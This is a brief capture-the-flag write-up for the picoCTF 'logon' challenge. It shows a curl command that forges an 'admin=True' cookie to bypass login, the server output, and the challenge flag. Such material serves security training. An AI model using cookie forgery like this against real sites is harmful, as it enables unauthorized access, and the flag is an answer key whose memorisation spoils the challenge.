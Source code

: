 ## **logon**

## Problema

The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/13594/` ([link](https://jupiter.challenges.picoctf.org/problem/13594/)) or http://jupiter.challenges.picoctf.org:13594

## Solucion

```sql
</html>jorgechz-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/proble/flag -H "Cookie: admin=True" |grep pico
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1312  100  1312    0     0   3457      0 --:--:-- --:--:-- --:--:--  3461
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}</code></p>
jorgechz-picoctf@webshell:~$
```

## CTF

picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}